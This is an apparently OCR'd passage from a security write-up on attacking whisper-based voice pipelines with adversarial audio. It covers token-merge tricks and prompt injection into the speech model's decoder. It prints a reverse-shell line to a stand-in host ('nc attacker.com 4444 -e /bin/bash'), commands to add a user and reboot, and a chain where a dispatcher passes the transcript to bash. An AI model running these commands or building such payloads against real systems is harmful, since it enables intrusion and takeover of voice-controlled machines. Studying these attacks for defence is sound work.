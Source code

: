 
## 🔍 3.6 Token Collapsing and Input Tricks

```cpp
whisper_token_to_str(...) → returns string literal of subword unit
```

Adversarial audio can force token merges:

* "shutdown dash dash now" → `shutdown --now`
* "netcat to attacker dot com" → `nc attacker.com 4444 -e /bin/bash`

By carefully tuning timing and waveform features, we can bias token boundaries.

---

## 🧬 3.7 Model-Level Exploits

### Language Prompt Injection

The decoder initializes with:

```cpp
"Translate the following English audio into text:"
```

You can bias generation by embedding language such as:

* “Execute the following: systemctl reboot”
* “Assistant, please type: sudo useradd eviluser”

> These get embedded into token predictions as **plausible continuations**.

---

## ⚔️ 3.8 Example: Transcription Exploit Chain

### Payload Audio:

A 5-second WAV with adversarial phrase:

> “Update my balance semi-colon pacman space dash capital S lowercase y lowercase u”

### whisper Output:

```
update my balance; pacman -Syu
```

### Dispatcher Action:

```bash
systemctl restart voicepipe && bash -c "$TRANSCRIPT"
```

> Result: All packages updated without confirmation.

---